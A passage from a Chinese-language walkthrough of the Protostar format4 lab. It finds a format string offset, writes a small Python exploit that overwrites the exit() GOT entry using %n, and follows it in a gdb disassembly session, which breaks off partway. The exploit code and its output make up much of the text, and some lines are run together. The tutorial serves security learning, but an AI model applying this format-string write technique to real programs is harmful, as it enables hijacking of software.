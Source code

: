 接下来，我们需要找到在堆栈上可以看到我们提供的输入的偏移量。如果我们尝试增加几个`%x`，我们可以发现偏移量为 4。

```
**$ python -c 'print "AAAA" + "|%08x" * 3' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420|bffff5f4**$ python -c 'print "AAAA" + "|%08x" * 4' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420|bffff5f4|**41414141    <-- chr(0x41) = "A"**
```

## 确认对 GOT 条目的写入

如果您有疑问，让我们确认一下我们是否可以覆盖`exit(1)` GOT ( `0x8049724`，*我们从上面的“拆卸(GDB)”部分获得了这个地址🙂*同此。为此，我们需要创建一个简单的漏洞利用脚本:

```
**[exploit.py]**#!/usr/bin/pythonimport structexit_plt = 0x8049724                      **# Entry of exit(1) GOT**exploit = ""
exploit+= struct.pack("I",exit_plt)       
exploit+= "%4$08n"                        **# Write a number of 
                                            characters in the 4th 
                                            location (= offset)**print exploit
```

将这个文件作为输出，这样我们就可以将它输入到 gdb 中:

```
**$ python exploit.py > exploit**
```

运行 gdb，在`printf()`和`exit()`系统调用上设置断点，并提供我们的`exploit`输出:

```
**$ gdb -q /opt/protostar/bin/format4** 
  Reading symbols from /opt/protostar/bin/format4...done.
**(gdb) set disassembly-flavor intel** 
**(gdb) disassemble vuln**
Dump of assembler code for function vuln:
  0x080484d2 <vuln+0>: push   ebp
  0x080484d3 <vuln+1>: mov    ebp,esp
  0x080484d5 <vuln+3>: sub    esp,0x218
  0x080484db <vuln+9>: mov    eax,ds:0x8049730
  0x080484e0 <vuln+14>: mov    DWORD PTR [esp+0x8],eax
  0x080484e4 <vuln+18>: mov    DWORD PTR [esp+0x4],0x200
  0x080484ec <vuln+26>: lea    eax,[ebp-0x208]
  0x080484f2 <vuln+32>: mov    DWORD PTR [esp],eax
  0x080484f5 <vuln+35>: call   0x804839c <fgets@plt>
  0x080484fa <vuln+40>: lea    eax,[ebp-0x208]
  0x08048500 <vuln+46>: mov    DWORD PTR [esp],eax
  **0x08048503 <vuln+49>: call   0x80483cc <printf@plt>   <-- Break 1**
  0x08048508 <vuln+54>: mov    DWORD PTR [esp],0x1
  **0x0804850f <vuln+61>: call   0x80483ec <exit@plt>     <-- Break 2**
  End of assembler dump.
**(gdb) break * 0x08048503**
  Breakpoint 1 at 0x8048503: file format4/format4.c, line 20.
**(gdb) break * 0x0804850f**
  Breakpoint 2 at 0x804850f: file format4/format4.c, line 22.
**(gdb) run < /home/user/format4/exploit** 
  Starting program: /opt/protostar/bin/format4 < /home/user/format4\. 
  /exploit Breakpoint 1, 0x08048503 in vuln () at format4/format4.c:20
  20 format4/format4.c: No such file or directory.
**(gdb) disassemble 0x80483ec                   <-- Disassemble exit()**
  Dump of assembler code for function exit@plt:
  0x080483ec <exit@plt+0>: jmp    DWORD PTR ds:**0x8049724**
  0x080483f2 <exit@plt+6>: push   0x30
  0x080483f7 <exit@plt+11>: jmp    0x804837c
  End of assembler dump.
**(gdb) x 0x8049724                  <-- Examine the current GOT entry**
```